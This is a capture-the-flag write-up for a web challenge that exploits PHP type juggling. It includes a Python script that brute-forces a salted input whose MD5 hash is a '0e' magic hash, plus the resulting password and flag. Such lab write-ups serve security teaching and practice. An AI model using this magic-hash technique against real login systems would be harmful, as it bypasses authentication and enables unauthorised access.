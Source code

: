 # ScientificHashes

# Description

```
Can you guess the password? Well it's time to put on the lab coat and unleash that scientific mind of yours !!

https://web.ctf.devclub.in/web/7/
```

Welcome page:

![Welcome](welcome.png)


# Observation

The given hints seem to indicate that of a PHP type juggling vulnerability.
PHP will do just about anything to match with a loose comparison (==) which means things can be 'equal' (==) or really equal (===). The implicit integer parsing to strings is the root cause of a lot of issues in PHP.



# Exploitation

```py
import hashlib

salt = "f789bbc328a3d1a3"

i = 100000000

while 1:
    password = salt + str(i)
    password = password.encode('utf8')

    new_hash = hashlib.md5(password).hexdigest()
    if new_hash[0:2] == "0e" and new_hash[2:32].isdigit():
        print(password, str(i), new_hash)
        exit(0)
    i += 1
```

On running this on an AWS instance, we get the following output after some minutes:

```
b'f789bbc328a3d1a3237701818' 237701818 0e668271403484922599527929534016
```

So, now we put this as password, and we get the flag in alert box. 

Flag: ```FLAG{php_r0cks_0nc3_again}```